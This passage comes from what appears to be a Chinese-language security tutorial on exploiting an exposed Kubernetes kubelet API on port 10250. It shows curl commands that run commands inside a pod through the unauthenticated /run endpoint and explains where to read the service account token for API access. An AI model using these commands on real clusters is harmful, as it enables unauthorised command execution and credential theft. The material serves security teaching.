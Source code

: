 [![](assets/1701678402-5e2661fd60e69cc7430e6826bf1bd28e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231130190919-e8a54c62-8f70-1.png)  
获取了三个字段后执行命令

```bash
-执行模版：
curl -XPOST -k "https://192.168.108.102:10250/run/<namespace>/<pod>/<container>" -d "cmd=id"

curl -XPOST -k "https://192.168.108.102:10250/run/default/nginx-6867cdf567-9sv8d/nginx" -d "cmd=id"
```

[![](assets/1701678402-401041fd80b94b208f05d12afa447bf2.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231130190919-e8bd0a96-8f70-1.png)  
接下里的操作可以有很多，我们介绍下获得 token  
在对应的容器里执行命令，获取 Token，该 token 可用于 Kubernetes API 认证，Kubernetes 默认使用 RBAC 鉴权（当使用 kubectl 命令时其实是底层通过证书认证的方式调用 Kubernetes API）  
token 默认保存在 pod 里的/var/run/secrets/kubernetes.io/serviceaccount/token
